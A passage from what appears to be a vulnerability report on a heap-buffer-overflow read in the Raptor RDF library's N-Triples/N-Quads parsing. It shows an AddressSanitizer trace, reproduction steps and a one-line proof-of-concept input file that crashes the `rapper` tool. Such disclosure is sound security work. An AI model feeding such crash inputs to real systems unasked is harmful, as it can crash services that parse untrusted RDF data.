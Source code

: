 ```
    #0 0x5f25d7d5047e in malloc (/raptor-asan/utils/.libs/rapper+0xbb47e) (BuildId: 31b11a035fdbbfb23ddb7c1a5db60302956622be)
    #1 0x70f0eec35c4b in raptor_ntriples_parse_chunk ntriples_parse.c
    #2 0x70f0eeba9486 in raptor_parser_parse_chunk (/raptor-asan/src/.libs/libraptor2.so.0+0x36486) (BuildId: 2591e3251613881bd804fabbc6c02dd6e7b7b76e)
    #3 0x70f0eeba96b6 in raptor_parser_parse_file_stream (/raptor-asan/src/.libs/libraptor2.so.0+0x366b6) (BuildId: 2591e3251613881bd804fabbc6c02dd6e7b7b76e)
    #4 0x70f0eeba9aac in raptor_parser_parse_file (/raptor-asan/src/.libs/libraptor2.so.0+0x36aac) (BuildId: 2591e3251613881bd804fabbc6c02dd6e7b7b76e)
    #5 0x5f25d7d8e492 in main (/raptor-asan/utils/.libs/rapper+0xf9492) (BuildId: 31b11a035fdbbfb23ddb7c1a5db60302956622be)
    #6 0x70f0ee8776c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16

SUMMARY: AddressSanitizer: heap-buffer-overflow raptor_ntriples.c in raptor_ntriples_parse_term_internal
Shadow bytes around the buggy address:
  0x602000004a80: fa fa fd fd fa fa fd fd fa fa fd fd fa fa fd fd
  0x602000004b00: fa fa fd fd fa fa fd fd fa fa fd fd fa fa 00 00
  0x602000004b80: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa 00 fa
  0x602000004c00: fa fa 00 00 fa fa 00 fa fa fa 06 fa fa fa 00 01
  0x602000004c80: fa fa 00 01 fa fa 07 fa fa fa 00 03 fa fa 06 fa
=>0x602000004d00: fa fa 00 01 fa fa 05 fa fa fa 04 fa fa[fa]00 00
  0x602000004d80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000004e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000004e80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000004f00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000004f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==2449874==ABORTING
```

### 2.1 Steps to reproduce

`rapper -i nquads heap_read_overflow.poc`

Contents of `heap_read_overflow.poc`:

```
_:/exaple/o
```
